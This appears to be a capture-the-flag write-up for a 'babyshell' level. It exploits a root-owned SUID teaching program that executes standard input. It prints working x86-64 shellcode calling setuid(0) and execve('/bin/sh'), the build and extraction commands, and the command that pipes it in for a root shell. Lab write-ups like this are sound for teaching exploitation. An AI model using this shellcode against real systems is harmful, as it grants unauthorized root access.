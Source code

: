 ## Level 1

List the file in the current directory. There is a SUID program called `babyshell_level1_teaching1` and its owner is root. So we can exploit it to leak the contents of flag. 

![](https://github.com/chuang76/writ3up/blob/main/figure/babyshell-1.PNG?raw=true)

According to the hint: the standard input will be read into memory at 0x17011000 and executed. So our goal is to write a shellcode and send it as a standard input. 

![](https://github.com/chuang76/writ3up/blob/main/figure/babyshell-2.PNG?raw=true)

![](https://github.com/chuang76/writ3up/blob/main/figure/babyshell-3.PNG?raw=true)

Write the shellcode program in `/tmp` directory. The program aims to invoke setuid(0) and execve("/bin/sh").

```assembly
.global _start

_start: 
.intel_syntax noprefix
	mov rax, 0x69		; setuid 
	mov rdi, 0
	syscall 
	
	mov rax, 0x3b 		; execve
	lea rdi, [rip+filename]
	mov rsi, 0
	mov rdx, 0
	syscall 

filename:
	.string "/bin/sh"
```

Compile it as a binary file and use objcopy command to extract the raw shellcode. 

```
$ gcc -nostdlib -static shellcode.s -o shellcode
$ objcopy --dump-section .text=shellcode-raw shellcode
```

So we can get the root privilege of the shell and get the flag. 

```
$ (cat ./tmp/shellcode-raw; cat) | ./babyshell_level1_teaching1
```

![](https://github.com/chuang76/writ3up/blob/main/figure/babyshell-4.PNG?raw=true)